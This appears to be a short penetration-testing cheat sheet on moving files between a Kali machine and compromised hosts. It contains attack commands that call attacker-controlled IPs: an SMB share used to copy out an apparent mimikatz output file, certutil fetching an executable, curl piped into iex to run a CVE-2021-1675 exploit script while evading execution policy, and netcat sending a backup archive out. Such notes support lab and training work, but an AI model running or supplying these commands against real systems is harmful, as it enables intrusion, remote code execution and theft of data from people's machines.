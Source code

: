 from windows back to my kali linux
on kali run
```
smbserver.py smb share/ -smb2support
```
on windows, run:
```
net use \\192.168.49.109\smb
```
then copy the file
```
copy .\mimi_allyouneed101.txt \\192.168.49.109\smb\mimi_allyouneed101.txt
```

wget

iwr -uri

```
certutil -split -urlcache -f http://192.168.49.109/chkaccess.exe C:\\Users\\rudi.davis\\Desktop\\chkaccess.exe
```

if wget doesn't work because IE engine isn't availablem, use `curl` with parameter:
```
curl 10.10.14.6/CVE-2021-1675.ps1 -UseBasicParsing | iex
```
- `-UseBasicParsing` allows the file to come back without IE
- `iex` imports (or runs) the script 
	- useful if can't import/run a script when transferred via other means because of execution policy and `powershell -ep bypass` doesn't work

### NC
```
nc -lnvp 443 > 16162020_backup.zip
```
- run on kali
```
md5sum 16162020_backup.zip
```
- checksum on remote machine before transferring
```
cat 16162020_backup.zip | nc 10.10.14.191 443
```
- on remote machine to initiate the transfer
```
md5sum 16162020_backup.zip
```
- checksum on kali to make sure matches